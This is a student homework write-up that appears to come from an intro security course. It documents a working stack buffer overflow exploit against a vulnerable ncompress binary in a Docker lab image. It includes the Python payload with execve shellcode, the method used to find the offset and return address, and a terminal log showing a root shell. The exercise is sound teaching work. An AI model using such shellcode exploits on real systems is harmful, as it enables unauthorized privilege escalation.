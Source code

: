 [![Review Assignment Due Date - #even if I don't get a grade due to late submission I 'd like to receive feedback :)](https://classroom.github.com/assets/deadline-readme-button-22041afd0340ce965d47ae6ef1cefeee28c7c493a6346c4f15d667ab976d596c.svg)](https://classroom.github.com/a/O3y_pTl_)
# Homework #0

Topics: Github & Actions, Docker, Python, Bash, Buffer Overflows

## Write up of our first exploit (25 Points)
My exploit is the following:
--------------------------------------------------------------------------------
import sys
import struct

payload = b""
payload += b"\x90" * 1000
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload += b"\x90" * 16 
payload += struct.pack("<I", 0xffffc9dc+ 1000) *30

sys.stdout.buffer.write(payload)
--------------------------------------------------------------------------------

I concluded from the source code (the input path is 1024 bytes long) that the buffer is 1024 bytes long. From gdb and testing i concluded that the return address is overwritten after 1068 bytes (buffer plus other stuff). So I added nearly this many bytes as a nop sled, then added the shellcode and some more nop sleds (the code didn't seem to work otherwise). Then I added the address of the return address many times to compensate if the memory addresses "move" a bit. That's the same reason I have added the return address earlier than the 1068 bytes needed offset that I found.
The return address was found using 'sudo dmesg' to inspect where the stack pointer was when the segfault occured. I then found (with trial and error) that 1000 bytes where sufficient to get me to the nop sled, leading to execution of my shellcode. I have tested this and it works in multiple instances.


######################################################################################
A successful invocation:
######################################################################################

~/Documents/hack_intro/erg1/hw0-KStamoulis$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@0d9b8c1aa83d:~$ echo hello | ncompress
��hʰa�Fubuntu@0d9b8c1aa83d:~$ python3 /exploit.py > /tmp/payload
ubuntu@0d9b8c1aa83d:~$ whoami
ubuntu
ubuntu@0d9b8c1aa83d:~$ ncompress `cat /tmp/payload`
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                      1�@̀����������������������������������������������������������������������������������������������������������������������������������������: File name too long
# whoami
root
# exit
ubuntu@0d9b8c1aa83d:~$ 

######################################################################################